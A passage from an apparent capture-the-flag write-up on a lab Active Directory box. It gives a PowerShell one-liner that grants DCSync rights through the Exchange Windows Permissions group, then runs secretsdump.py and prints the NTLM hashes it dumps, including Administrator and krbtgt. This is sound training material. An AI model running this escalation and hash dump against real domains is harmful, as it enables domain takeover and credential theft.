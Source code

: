 This attack is very finnicky so trial and error is key, especially with the TargetIdentity field. When in doubt, always read the PowerView docs


Note that Oxdf's writeup has a great oneliner version of this if needed in a pinch:

```
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Once completed, verify that svc-alfresco is added to the group

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Exchange Windows Permissions'
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
svc-alfresco
The command completed successfully.
```

For an unknown reason svc-alfresco would get removed from this group every few minutes which would make secretsdump.py fail due to a lack of permissions.&#x20;

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161     
                                                               
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation
                                                                                                                        
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                              
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                   
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                    
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                                         
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                
```
